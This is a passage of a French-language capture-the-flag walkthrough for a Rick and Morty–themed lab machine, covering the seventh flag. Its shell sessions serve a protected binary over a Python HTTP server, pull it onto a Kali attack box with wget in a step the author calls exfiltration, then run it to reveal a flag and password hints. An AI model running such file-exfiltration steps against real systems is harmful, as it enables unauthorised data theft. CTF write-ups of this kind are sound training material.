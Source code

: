 ** Septième FLAG 80/130 **

On lit visiblement ici que Morty nous fournit un mot de passe pour un coffre-fort.
Plus haut on à vus que dans le dossier home de Rick se trouve un dossier ```RICKS_SAFE``` :

```bash
[Summer@localhost ~]$ ls /home/RickSanchez/
RICKS_SAFE  ThisDoesntContainAnyFlags
[Summer@localhost ~]$ ls -al /home/RickSanchez/RICKS_SAFE/
total 12
drwxr-xr-x. 2 RickSanchez RickSanchez   18 21 sept. 09:50 .
drwxr-xr-x. 4 RickSanchez RickSanchez  113 21 sept. 10:30 ..
-rwxr--r--. 1 RickSanchez RickSanchez 8704 21 sept. 10:24 safe
```

Visiblement, on ne peut pas exécuter ce programme, on va donc utiliser une technique d'exfiltration : 

```bash
# Sur la cible 
[Summer@localhost ~]$ cd /home/RickSanchez/
RICKS_SAFE/                ThisDoesntContainAnyFlags/ 
[Summer@localhost ~]$ cd /home/RickSanchez/RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ ls
safe
[Summer@localhost RICKS_SAFE]$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
# Sur notre kali
root@kali:~/Téléchargements# wget http://192.168.122.122:8080/safe
```

On va maintenant faire le contraire :

```bash
# Sur notre Kali
root@kali:~/Téléchargements# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...

# [Summer@localhost ~]$ wget http://192.168.122.197:8080/safe
--2018-03-06 20:22:40--  http://192.168.122.197:8080/safe
Connexion à 192.168.122.197:8080… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 8704 (8,5K) [application/octet-stream]
Sauvegarde en : « safe.1 »

safe                   100%[===============================>]   8,50K  --.-KB/s    ds 0s      

2018-03-06 20:22:40 (21,0 MB/s) — « safe.1 » sauvegardé [8704/8704]
```

On va maintenant tenter de le lancer :

```bash
[Summer@localhost ~]$ chmod +x safe
[Summer@localhost ~]$ ./safe 
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
[Summer@localhost ~]$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.  @
```